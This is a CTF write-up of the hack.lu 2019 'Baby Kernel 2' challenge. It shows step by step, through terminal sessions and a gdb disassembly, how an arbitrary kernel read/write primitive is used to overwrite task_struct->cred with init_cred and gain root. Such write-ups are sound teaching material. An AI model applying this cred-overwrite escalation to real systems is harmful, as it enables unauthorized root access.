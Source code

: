 # hack.lu CTF 2019

### Baby Kernel 2 - pwn , 202 pts, solves: 68



We are provided with a minimal kernel environment containing custom kernel module and client that communicates with it.

Having `read/write` primitive in kernel space we can escalate our privileges by changing `cred` field of the `task_struct` of our current task. Luckily we are provided with the `System.map` file containing all symbols from the target kernel.

Obtaining `current_task`  address:

```bash
➤ grep 'D current_task' System.map                                                     
ffffffff8183a040 D current_task
```

Let's test if we can read from this address:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
(...)
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003372300
```

We have obtained `task_struct` address from the `current_task`. To escalate privileges to root we have to modify `task_struct->cred` field at offset `0x400` (offset obtained from the disassembly of the `commit_cred` function from the provided kernel image).  We will use `init_cred` struct, which contains credentials of the `init` process that is running as `root`.

```bash
➤ grep init_cred System.map                                                                    
ffffffff8183f4c0 D init_cred
```

To decompress the kernel image I've used this tool: `https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux`

Obtaining the offset to the `cred` field: (we could also use pwn tools, but why not like this)

```bash
➤ gdb -q ./vmlinux                                                                    
pwndbg: loaded 176 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./vmlinux...done.
pwndbg> disassemble commit_creds 
Dump of assembler code for function commit_creds:
   0xffffffff81050c50 <+0>:	push   rbp
   0xffffffff81050c51 <+1>:	mov    rbp,rsp
   0xffffffff81050c54 <+4>:	push   r13
   0xffffffff81050c56 <+6>:	mov    r13,QWORD PTR ds:0xffffffff8183a040
   0xffffffff81050c5e <+14>:	push   r12
   0xffffffff81050c60 <+16>:	push   rbx
   0xffffffff81050c61 <+17>:	mov    r12,QWORD PTR [r13+0x3f8]
   0xffffffff81050c68 <+24>:	cmp    QWORD PTR [r13+0x400],r12
   0xffffffff81050c6f <+31>:	jne    0xffffffff81050d66 <commit_creds+278>
```

The `task_struct->real_cred` at offset `0x3f8` holds our current `uid (1000)`. We have to modify `task_struct->cred` field at offset `0x400`.

What is left to do is to spawn a shell with the new credentials - or like in our case, just use `Read file` function that is now running as `root`:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003373480
----- Menu -----
1. Readrandom: fast init done

2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 2
2
I need an offset to write to. Choose wisely - seriously now...
> 
0xffff888003373880     <-- task_struct->cred: 0xffff888003373480 + 0x400
0xffff888003373880
What about a value?
> 
0xffffffff8183f4c0     <-- init_cred
0xffffffff8183f4c0
Thanks, boss. I can't believe we're doing this!
flux_baby_2 ioctl nr 902 called
Amazingly, we're back again.
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 3
3
uid=0(root) gid=0(root)
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 4 
4 
Which file are we trying to read?
> /flag
/flag
Here are your 0x35 bytes contents: 
flag{nicely_done_this_is_how_a_privesc_can_also_go}}
```



That's it! Thanks



